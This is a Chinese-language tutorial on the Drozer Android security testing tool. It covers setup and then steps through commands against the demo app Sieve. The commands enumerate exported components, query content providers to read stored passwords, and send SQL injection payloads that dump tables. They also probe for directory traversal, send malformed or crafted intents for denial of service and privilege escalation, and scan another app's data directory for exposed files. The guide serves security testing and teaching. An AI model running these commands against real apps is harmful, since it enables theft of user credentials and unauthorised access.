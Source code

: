一、安装与启动    
　　1. 安装    
　　第一步：从http://mwr.to/drozer下载Drozer (Windows Installer)    
　　第二步：在Android设备中安装agent.apk    
　　adb install agent.apk    
　　2. 启动    
　　第一步：在PC上使用adb进行端口转发，转发到Drozer使用的端口31415    
　　adb forward tcp:31415 tcp:31415  
　　第二步：在Android设备上开启Drozer Agent   
　　选择embedded server-enable  
　　第三步：在PC上开启Drozer console   
　　drozer console connect  
　　二、测试步骤  
　　1.获取包名  
　　dz> run app.package.list -f sieve
　　com.mwr.example.sieve
　　2.获取应用的基本信息
　　run app.package.info -a com.mwr.example.sieve
　　3.确定攻击面
　　run app.package.attacksurface com.mwr.example.sieve
　　4.Activity
　　（1）获取activity信息
　　run app.activity.info -a com.mwr.example.sieve
　　（2）启动activity
　　run app.activity.start --component com.mwr.example.sieve
　　dz> help app.activity.start
　　usage: run app.activity.start [-h] [--action ACTION] [--category CATEGORY]
　　[--component PACKAGE COMPONENT] [--data-uri DATA_URI]
　　[--extra TYPE KEY VALUE] [--flags FLAGS [FLAGS ...]]
　　[--mimetype MIMETYPE]
　　5.Content Provider  
　　（1）获取Content Provider信息   
　　run app.provider.info -a com.mwr.example.sieve   
　　（2）Content Providers（数据泄露） 
　　先获取所有可以访问的Uri：
　　run scanner.provider.finduris -a com.mwr.example.sieve   
　　获取各个Uri的数据：
　　run app.provider.query   
　　content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
　　查询到数据说明存在漏洞
　　（3）Content Providers（SQL注入）
　　`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'" `  
　　`run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"  ` 
　　报错则说明存在SQL注入。
　　列出所有表：
　　run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"  
　　获取某个表（如Key）中的数据：  
　　run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"  
　　（4）同时检测SQL注入和目录遍历  
　　run scanner.provider.injection -a com.mwr.example.sieve  
　　run scanner.provider.traversal -a com.mwr.example.sieve  
　　6 intent组件触发（拒绝服务、权限提升）  
　　利用intent对组件的触发一般有两类漏洞，一类是拒绝服务，一类的权限提升。拒绝服务危害性比较低，更多的只是影响应用服务质量；而权限提升将使得没有该权限的应用可以通过intent触发拥有该权限的应用，从而帮助其完成越权行为。  
　　1.查看暴露的广播组件信息：   
　　run app.broadcast.info -a com.package.name　　获取broadcast receivers信息   
　　run app.broadcast.send --component 包名 --action android.intent.action.XXX   
　　2.尝试拒绝服务攻击检测，向广播组件发送不完整intent（空action或空extras）：  
　　run app.broadcast.send 通过intent发送broadcast receiver  
　　(1)   空action  
　　run app.broadcast.send --component 包名 ReceiverName   
　　run app.broadcast.send --component 包名 ReceiverName   
　　(2)   空extras   
　　run app.broadcast.send --action android.intent.action.XXX   
　　3.尝试权限提升  
　　权限提升其实和拒绝服务很类似，只不过目的变成构造更为完整、更能满足程序逻辑的intent。由于activity一般多于用户交互有关，所以基 于intent的权限提升更多针对broadcast receiver和service。与drozer相关的权限提升工具，可以参考IntentFuzzer，其结合了drozer以及hook技术，采用 feedback策略进行fuzzing。以下仅仅列举drozer发送intent的命令：  
　　（1）获取service详情  
　　run app.service.info -a com.mwr.example.sieve  
　　不使用drozer启动service   
　　am startservice –n 包名/service名   
　　（2）权限提升  
　　run app.service.start --action com.test.vulnerability.SEND_SMS --extra string dest 11111 --extra string text 1111 --extra string OP SEND_SMS   
　　7.文件操作  
　　列出指定文件路径里全局可写/可读的文件  
　　run scanner.misc.writablefiles --privileged /data/data/com.sina.weibo  
　　run scanner.misc.readablefiles --privileged /data/data/com.sina.weibo   
　　run app.broadcast.send --component 包名 --action android.intent.action.XXX  
　　8.其它模块  
　　shell.start 在设备上开启一个交互shell  
　　tools.file.upload / tools.file.download 上传/下载文件到设备  
　　tools.setup.busybox / tools.setup.minimalsu 安装可用的二进制文件  
